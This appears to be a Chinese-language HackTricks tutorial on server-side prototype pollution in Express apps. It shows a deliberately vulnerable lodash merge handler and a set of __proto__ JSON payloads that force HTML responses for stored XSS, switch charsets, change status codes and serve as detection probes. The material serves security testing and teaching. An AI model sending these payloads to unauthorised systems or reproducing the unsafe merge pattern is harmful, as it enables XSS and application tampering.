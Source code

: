 # Express 原型污染工具

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 提供 XSS 响应

**有关更多详细信息** [**请查看原始研究**](https://portswigger.net/research/server-side-prototype-pollution)

### 将 JSON 内容类型更改为 HTML

在一个使用 **JSON 内容类型响应** 并反射 JSON 的 Express 应用中：
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
在这些情况下，XSS 通常不可能与 JSON 内容类型一起使用。然而，通过原型污染，我们可以 **混淆 Express 以提供 HTML 响应。** 这个漏洞依赖于应用程序使用 **`res.send(obj)`** 并使用应用程序/json 内容类型的主体解析器。
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
通过**污染** **`body`** 和 **`_body`** 属性，可以导致 **Express 提供 HTML 内容类型** 并反射 `_body` 属性，从而导致存储型 XSS。

### 渲染 UTF7

可以使 express **渲染 UTF-7 内容**：
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 安全扫描技术

### JSON 空格

以下 PP 将使 JSON 内的属性具有额外的空格，这不会破坏功能：
```json
{"__proto__":{"json spaces": " "}}
```
然后反射的 JSON 看起来像：
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

以下 PP gadget 将使服务器返回 HTTP 头：**`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
它需要安装 **CORS 模块**

### **OPTIONS 方法**

使用以下有效负载，可以 **从 OPTIONS 响应中隐藏一个方法**：
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **状态**

可以使用以下 PP 有效负载更改 **返回状态代码**：
```json
{"__proto__":{"status":510}}
```
### 错误

当你用一个原始值（如字符串）赋值给原型时，它会产生一个 **无操作，因为原型必须是一个对象**。如果你尝试将一个原型对象赋值给 `Object.prototype` 本身，这将 **抛出一个异常**。我们可以利用这两种行为来 **检测原型污染是否成功**：
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### 反射值

当一个应用程序在其响应中包含一个对象时，创建一个带有 **不寻常名称的属性以及 `__proto__`** 可能会很有启发性。具体来说，如果 **响应中仅返回不寻常的属性**，这可能表明应用程序的漏洞：
```json
{"unusualName":"value","__proto__":"test"}
```
此外，在使用像 Lodash 这样的库的场景中，通过原型污染 (PP) 和直接在对象内部设置属性提供了另一种诊断方法。如果这样的属性在响应中被省略，这表明 Lodash 在合并之前正在验证目标对象中属性的存在性：
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### 允许点

在 Express 中有一个选项，可以让你 **从查询字符串参数创建对象**。\
你可以在一个漏洞 **链** 中使用它来利用 **原型污染漏洞**。
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` 在 Node 中创建一个对象。**

## 参考文献

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
